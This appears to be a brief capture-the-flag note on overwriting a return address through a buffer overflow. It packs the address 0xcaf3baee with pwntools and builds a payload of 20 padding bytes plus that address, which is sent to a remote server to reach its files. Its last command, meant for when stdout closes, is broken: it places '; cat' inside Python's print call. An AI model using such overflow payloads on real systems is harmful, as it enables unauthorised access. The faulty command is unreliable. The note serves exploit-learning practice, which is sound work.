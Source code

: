 ### N o T e S

---

firstly, find out the offset before which the program will not print flag. Then concatenate it with the address we want.

For example, in a question if offset is 20 and we need to return the address 0xcaf3baee, then 

```bash
>>> import pwn
>>> pwn.p32(0xcaf3baee)
b'\xee\xba\xf3\xca'

# --> Little endian notation.
```

Payload --> python -c 'print("A"*20+"\xee\xba\xf3\xca")' > payload

```py
print("A"*20+"\xee\xba\xf3\xca")
AAAAAAAAAAAAAAAAAAAAîºóÊ
```

When we run this payload with the remote server, we can get access to the local files.

#### In case the stdout closes using payload try this : 

```py
python -c 'print("A"*20+"\xee\xba\xf3\xca" ; cat)'
```

  

---


